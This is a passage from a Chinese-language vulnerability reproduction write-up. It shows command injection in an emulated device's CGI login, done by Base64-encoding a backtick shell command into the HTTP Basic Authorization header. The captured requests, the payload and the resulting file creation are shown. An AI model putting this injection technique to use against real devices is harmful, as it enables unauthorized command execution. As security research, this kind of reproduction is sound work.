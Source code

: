 端口已经正常启动，Ubuntu浏览器访问http://192.168.7.7:80/cgi-bin即可看到弹出的登陆框:

![image-20221119141419847](https://cdn.jsdelivr.net/gh/AlexsanderShaw/BlogImages@main/img/202211191414962.png)



### 2. 复现过程

使用`admin/admin`的账号密码登录，抓包如下：

```shell
GET /cgi-bin/ HTTP/1.1
Host: 192.168.7.7
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux aarch64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=


```

对于常规字段没有发现特殊的情况，对于`Authorization`字段，有一段Base64加密的内容，使用Base64解密后发现是`admin:admin`，也就是用户名和密码。构造payload如下：

```shell
echo "admin:`touch /aaa`" | base64
YWRtaW46YHRvdWNoIC9hYWFg
```

构造如下数据包：

```shell
GET /cgi-bin/ HTTP/1.1
Host: 192.168.7.7
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux aarch64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YHRvdWNoIC9hYWFg


```

![image-20221116150101898](https://cdn.jsdelivr.net/gh/AlexsanderShaw/BlogImages@main/img/202211161501966.png)

数据包发送后，在文件系统中新增了一个`aaa`文件：

```shell
root@debian-armhf:~/squashfs-root# ls
aaa			  etc		    hw_id	 proc  tmp
bin			  firmware_region   iQoS	 rom   usr
cloud_version		  firmware_time     lib		 root  www
default_language_version  firmware_version  module_name  sbin
dev			  hardware_version  overlay	 sys
```

